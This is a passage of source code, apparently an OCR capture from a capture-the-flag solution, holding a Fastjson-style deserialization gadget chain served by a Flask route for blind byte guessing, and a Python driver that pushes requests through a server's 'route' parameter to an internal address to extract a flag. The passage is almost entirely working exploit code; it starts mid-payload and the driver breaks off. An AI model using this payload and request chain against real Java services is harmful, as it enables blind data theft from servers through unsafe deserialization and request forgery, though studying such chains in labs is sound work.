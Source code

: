 ```python
            "boms": [{
                "charsetName": "UTF-8",
                "bytes": [
                    %s
                ]
            }]
        }
      }
  },
  "trigger3": {
      "$ref": "$.trigger2.entity.inStream"
  },
  "trigger4": {
    "$ref": "$.trigger3.BOM"
  },
  "trigger5": {
      "@type": "com.dtflys.forest.backend.httpclient.response.HttpclientForestResponse",
      "entity": {
        "@type": "org.apache.http.entity.InputStreamEntity",
        "inStream": {
          "@type": "org.apache.commons.io.input.BOMInputStream",
          "delegate": {
            "@type": "org.apache.commons.io.input.ReaderInputStream",
            "reader": {
              "@type": "org.apache.commons.io.input.CharSequenceReader",
              "charSequence": {
                "@type": "java.lang.String"{"$ref": "$.trigger4"
              }
            },
            "charsetName":"UTF-8",
            "bufferSize":1024
          },
          "boms":[{
            "charsetName": "UTF-8",
            "bytes": [233]
          }]
        }
      }
    }
}    

"""
@app.route("/blind/<string:guess>")
def blind_controller(guess):
    new_poc2 = poc2 % (guess)
    return Response(response=new_poc2,status=200,mimetype='application/json')

```

```python
import requests
def send(exp):
    r = requests.get(
        url = 'http://god.cc:10002/getOther',
        params = {
            'route':'http://10.162.46.101:7711' + exp
        }
    )
    return(r.status_code,len(r.text))
    

if __name__ == "__main__":
    send("/load")
    flag = ""
```